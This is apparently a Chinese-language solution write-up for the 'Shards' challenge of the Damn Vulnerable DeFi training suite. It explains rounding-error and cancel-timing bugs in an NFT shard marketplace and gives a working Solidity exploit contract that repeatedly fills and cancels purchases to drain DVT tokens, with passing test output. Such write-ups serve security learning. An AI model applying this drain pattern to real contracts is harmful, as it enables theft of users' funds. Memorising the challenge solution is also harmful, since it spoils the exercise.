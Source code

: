 ## 题目 [Shards](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/shards)

Shards NFT 市场是一个无需许可的智能合约，允许 Damn Valuable NFT 持有者以任何价格（以 USDC 表示）出售他们的 NFT。  

这些 NFT 可能非常值钱，以至于卖家可以将它们分割成更小的部分（“碎片”）。买家可以购买这些碎片，碎片通过 ERC1155 代币来表示。市场只有在整个 NFT 售出后才会支付卖家款项。  

市场向卖家收取 1% 的费用，以 Damn Valuable Tokens（DVT）支付。这些 DVT 可以存储在一个安全的链上金库中，而金库会进一步集成 DVT 质押系统。  

有人正在出售一个 NFT，价格高达……哇，一百万 USDC？  

你最好在那些投机者发现之前调查一下这个市场。  

你一开始没有 DVT。尽可能在一次交易中抢救资金，并将资产存入指定的恢复账户。  

要求：  
1. 质押合约的余额没有变化。
2. Marketplace 合约的代币减少：  
计算 marketplace 合约中减少的代币数量 missingTokens，并且要求这个数量大于 initialTokensInMarketplace 的 0.01%。initialTokensInMarketplace 为 750 ether DVT，那么我们需要取走至少 0.075 ether DVT。  
3. 所有恢复的资金被发送到 recovery 账户：  
要求 recovery 账户中的代币数量等于 missingTokens，即所有从 marketplace 中恢复的资金都被成功转移到了 recovery 账户。同时，player 账户中的代币余额为 0。  
4. 玩家只能执行一次交易。  

## 题解
1. 购买碎片的漏洞 (fill):
fill 函数中使用了 mulDivDown 方法，它的计算会产生向下取整的结果：  
``` solidity
paymentToken.transferFrom(
    msg.sender, address(this), want.mulDivDown(_toDVT(offer.price, _currentRate), offer.totalShards)
);
```
由于 `offer.totalShards` 非常大，即使 `want` 不为 0，在经过 `mulDivDown` 计算后，实际支付的 DVT 代币数量可能为 0。因此我们可以用 0 个 DVT 代币购买到少量碎片。 

2. 取消购买的漏洞 (cancel):  
cancel 函数中的时间限制逻辑存在问题，导致买家可以在购买后立即取消操作：  
``` solidity
if (
    purchase.timestamp + CANCEL_PERIOD_LENGTH < block.timestamp
        || block.timestamp > purchase.timestamp + TIME_BEFORE_CANCEL
) revert BadTime();
```
取消购买时，市场会退还买家的 DVT，并且计算方式使用了 `mulDivUp`，会向上取整：   
``` solidity
paymentToken.transfer(buyer, purchase.shards.mulDivUp(purchase.rate, 1e6));
```
这样买家可以通过 cancel 获取更多的 DVT 代币。  

POC:
通过结合 fill 函数的 0 代币购买漏洞和 cancel 函数的超额退款机制，我们可以在一次交易中反复进行购买和取消操作，逐步从市场中获取 DVT。
``` solidity
    function test_shards() public checkSolvedByPlayer {
        ShardsExploit exploit = new ShardsExploit(marketplace, token, recovery);

        for (uint256 i; i < 500; i++) {
            uint256 shards = exploit.getMaxWant(i);
            if (shards > 0) {
                console.log("want:", i - 1); // 找到最大购买量
                break;
            }
        }

        console.log("get DVT:", exploit.getDVT(100)); // 7500000000000

        exploit.attack(1);
    }

contract ShardsExploit {
    using FixedPointMathLib for uint256;

    ShardsNFTMarketplace public marketplace;
    DamnValuableToken public token;
    address recovery;

    uint256 constant MARKETPLACE_INITIAL_RATE = 75e15;
    uint112 constant NFT_OFFER_PRICE = 1_000_000e6;
    uint112 constant NFT_OFFER_SHARDS = 10_000_000e18;

    constructor(ShardsNFTMarketplace _marketplace, DamnValuableToken _token, address _recovery) {
        marketplace = _marketplace;
        token = _token;
        recovery = _recovery;
    }

    function attack(uint64 offerId) external {
        uint256 wantShards = 100;

        for (uint256 i = 0; i < 10001; i++) {
            marketplace.fill(offerId, wantShards);
            marketplace.cancel(1,i);
        }

        token.transfer(recovery,token.balanceOf(address(this)));
    }

    function getMaxWant(uint256 want) public pure returns (uint256) {
        return want.mulDivDown(_toDVT(NFT_OFFER_PRICE, MARKETPLACE_INITIAL_RATE), NFT_OFFER_SHARDS);
    }

    function getDVT(uint256 want) public pure returns (uint256) {
        return want.mulDivUp(MARKETPLACE_INITIAL_RATE, 1e6);
    }

    function _toDVT(uint256 _value, uint256 _rate) private pure returns (uint256) {
        return _value.mulDivDown(_rate, 1e6);
    }

}

```
验证结果：  
```
forge test --mp test/shards/Shards.t.sol -vv

[PASS] test_assertInitialState() (gas: 80211)
[PASS] test_shards() (gas: 823240180)
Logs:
  want: 133
  get DVT: 7500000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 353.45ms (344.89ms CPU time)
```